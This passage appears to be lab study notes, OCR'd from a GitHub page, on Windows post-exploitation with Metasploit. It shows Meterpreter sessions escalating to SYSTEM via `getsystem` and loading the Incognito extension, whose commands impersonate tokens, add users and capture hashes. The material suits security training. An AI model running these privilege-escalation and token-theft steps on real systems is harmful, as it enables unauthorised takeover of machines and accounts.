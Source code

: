             Current User
            ============

            Is Admin    Is System   UAC Enabled   Foreground ID   UID
            --------    ---------   -----------   -------------   ---
            True        False       True          1               "els\\els"
            ```

          We now have administrator privileges on the machine, but we do not yet have the highest privileges on the machine.
            What we can do is run `getsystem` once again in this new meterpreter session. This time it will work.
              ```
              meterpreter > getsystem
              ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
              meterpreter > getuid
              Server username: NT AUTHORITY\SYSTEM
              meterpreter > sysinfo
              Computer        : ELS
              OS              : Windows 7 (Build 7601, Service Pack 1)
              Architecture    : x64 (Current Process is WOW64)
              System Language : en_US
              Domain          : WORKGROUP
              ```

          **Incognito**
            A very powerful Meterpreter extension that we can use in this phase is [Incognito][https://www.gracefulsecurity.com/privesc-stealing-windows-access-tokens-incognito/].
            It was a standalone tool used to demonstrate security issues affecting [Windows tokens][https://technet.microsoft.com/en-us/library/cc759267(v=ws.10).aspx], but due to its functionality and features, it has been integrated in Metasploit.

            Thanks to incognito, we can impersonate other valid user tokens on that machine and became that user. The best thing is that we do not need to know or crack passwords to do this.

            As you can imagine, being able to switch from one user to another gives us the possibility to access different local or domain resources.

            Loading incognito is very simple. Once we have a meterpreter session (better with system privileges), we can run the following command to load the incognito extension
              ```
              meterpreter > use incognito
              Loading extension incognito...success.

              Incognito Commands
              ==================
                  Command             Description
                  -------             -----------
                  add_group_user      Attempt to add a user to a global group with all tokens
                  add_localgroup_user Attempt to add a user to a local group with all tokens
                  add_user            Attempt to add a user with all tokens
                  impersonate_token   Impersonate specified token
                  list_tokens         List tokens available under current user context
                  snarf_hashes        Snarf challenge/response hashes for every token
              ```

